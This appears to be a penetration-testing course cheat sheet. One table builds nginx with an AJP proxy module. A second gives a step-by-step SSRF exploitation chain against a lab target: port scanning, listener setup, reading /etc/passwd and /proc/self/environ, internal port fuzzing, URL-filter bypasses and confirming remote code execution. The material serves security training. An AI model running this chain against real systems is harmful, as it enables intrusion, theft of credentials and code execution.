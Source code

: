 # Nginx Reverse Proxy & AJP

## Command	Description

| Command                                                                                                        | Description                                                                 |
|----------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------|
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz`                                                          | Downloading nginx                                                           |
| `tar -xzvf nginx-1.21.3.tar.gz`                                                                                | Extracting nginx tar file                                                   |
| `git clone https://github.com/dvershinin/nginx_ajp_module.git`                                                 | Cloning nginx_ajp source code                                               |
| `cd nginx-1.21.3`                                                                                              | Navigating to nginx directory                                               |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server |
| `make`                                                                                                         | GNU make utility to maintain groups of programs                             |
| `sudo make install`                                                                                            | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx`                                                                                                   | Starting the nginx server                                                   |

# SSRF Exploitation Example

## Command	Description

| Command                                                                                         | Description                                                                  |
|-------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------|
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                              | Scanning the ports of the external target                                    |
| `curl -i -s -L http://<TARGET IP>`                                                              | Interacting with the target and following redirects                          |
| `nc -lvnp 8080`                                                                                 | Starting a netcat listener to test for SSRF                                  |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                       | Testing for SSRF vulnerability                                               |
| `python3 -m http.server 9090`                                                                   | Starting the python web server                                               |
| `sudo pip3 install twisted`                                                                     | Installing the ftp server                                                    |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                        | Starting the ftp server                                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`            | Retrieving a remote file through the target application (HTTP Schema)        |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                     | Retrieving a local file through the target application (File Schema)         |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                        | Generating a wordlist of possible ports                                      |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`          | Fuzzing for ports on the internal interface                                  |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                  | Interacting with the internal interface on the discovered port               |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`            | Interacting with the internal application                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`    | Discovering web application listening in on localhost                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"` | Modifying the URL to bypass the error message                                |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -` | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"` | Retrieving a local file through the target application                       |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code execution on the remote host                          |
| `sudo apt-get install jq`                                                                      | Installing jq                                                                |
